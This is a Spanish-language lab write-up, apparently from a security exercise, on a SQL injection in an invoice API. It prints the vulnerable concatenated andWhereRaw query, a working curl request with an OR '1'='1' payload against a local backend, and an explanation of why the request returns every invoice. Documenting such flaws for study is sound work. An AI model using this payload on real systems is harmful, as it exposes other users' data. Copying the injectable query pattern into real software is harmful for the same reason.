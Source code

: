 `/invoices` esta indicado ya desde el `services/backend/src/index.ts`

```bash
import invoiceRoutes from './routes/invoices.routes';
app.use('/invoices', invoiceRoutes);
```

Entonces podemos usar CURL con la URL de backend, más el path `/invoices`, más los parámetros, sin olvidarnos del TOKEN:

```bash

curl -i 
"http://localhost:5000/invoices?
userId=<userID>&
operator=<operador>&
status=<status>"\
-H "Authorization: Bearer $TOKEN"
```

Ejemplo que podemos ejecutar

```bash

curl -i "http://localhost:5000/invoices?userId=123&operator=%3D&status=paid'%20OR%20'1'%3D'1'--%20" \
  -H "Authorization: Bearer $TOKEN"

```

Donde el código vulnerable era:

```bash
.andWhereRaw(" status " + operator + " '" + status + "'");
```

Usamos los siguientes parámetros:

- `operator = =` para que no lo tome en cuenta
- `status = 'paid'` era la condición original.
- `OR '1'='1'` siempre es verdadero.
- `--`  en SQL es un comentario, por lo tanto ignora el resto de la línea.

Por consiguiente, ya que en SQL `AND` tiene mayor precedencia que `OR`, el WHERE sera algo como:

```bash
WHERE ( userId = '123' AND status = 'paid' ) OR ( '1'='1' )
```

Toda la condición es verdadera para todas las filas, brindando todas las facturas del sistema:

![alt text](/doc/vulnerabilidad-07/image.png)
